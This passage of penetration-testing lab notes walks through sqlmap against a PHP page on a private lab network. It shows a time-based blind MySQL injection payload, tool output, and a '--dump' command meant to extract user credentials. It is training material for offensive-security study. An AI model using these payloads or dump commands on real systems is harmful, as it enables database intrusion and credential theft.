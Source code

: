 ```
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=fbf1f5fa5fc...a7266cba36'). Do you want to use those [Y/n]
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: user (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: user=1' AND (SELECT 1582 FROM (SELECT(SLEEP(5)))dTzB) AND 'hiPB'='hiPB
---
[14:14:57] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: PHP, PHP 7.3.33, Apache 2.4.52
back-end DBMS: MySQL >= 5.0.12
[14:14:57] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/192.168.50.16'

[*] ending @ 02:14:57 PM /2022-05-16/
```

Submitted the entire URL after the _-u_ specifier together with the _?user_ parameter set to a dummy value
+ Once launched, we can press `Return` on the default options
+ <mark style="background: #D2B3FFA6;">Sqlmap</mark> then returns confirmation that we are dealing with a _time-based blind_ SQL injection and provides additional fingerprinting information such as the web server operating system, web application technology stack, and the backend database
+ Although the above command confirmed that the target URL is vulnerable to SQLi, we can extend our tradecraft by using <mark style="background: #D2B3FFA6;">sqlmap</mark> to dump the database table and steal user credentials
+ **Note**: Although sqlmap is a great tool to automate SQLi attacks, it provides next-to-zero stealth. Due to its high-volume of traffic, sqlmap should not be used as a first choice tool during assignments that require staying under the radar

#### Dump the Database
To *dump the entire database*, including user credentials, we can run the same command as earlier with the `--dump` parameter
+ Example:
```
kali@kali:~$ sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user --dump

```

```
[*] starting @ 02:23:49 PM /2022-05-16/

[14:23:49] [INFO] resuming back-end DBMS 'mysql'
[14:23:49] [INFO] testing connection to the target URL
got a 302 redirect to 'http://192.168.50.16:80/login1.php?msg=2'. Do you want to follow? [Y/n]
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=b7c9c962b85...c6c7205dd1'). Do you want to use those [Y/n]
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: user (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: user=1' AND (SELECT 1582 FROM (SELECT(SLEEP(5)))dTzB) AND 'hiPB'='hiPB
---
[14:23:52] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: PHP, Apache 2.4.52, PHP 7.3.33
back-end DBMS: MySQL >= 5.0.12
[14:23:52] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[14:23:52] [INFO] fetching current database
```